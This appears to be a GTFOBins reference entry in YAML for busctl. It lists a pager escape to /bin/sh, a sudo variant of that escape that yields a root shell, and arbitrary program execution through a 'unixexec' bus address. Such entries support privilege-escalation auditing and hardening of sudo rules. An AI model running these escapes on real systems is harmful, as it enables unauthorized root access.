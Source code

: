 ```yaml
---
description: This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
functions:
  shell:
    - code: |
        busctl --show-machine
        !/bin/sh
  sudo:
    - code: |
        sudo busctl --show-machine
        !/bin/sh
  command:
    - code: |
        busctl set-property org.freedesktop.systemd1 /org/freedesktop/systemd1 org.freedesktop.systemd1.Manager LogLevel s debug --address=unixexec:path=firefox,argv1=https://www.example.com
---
```

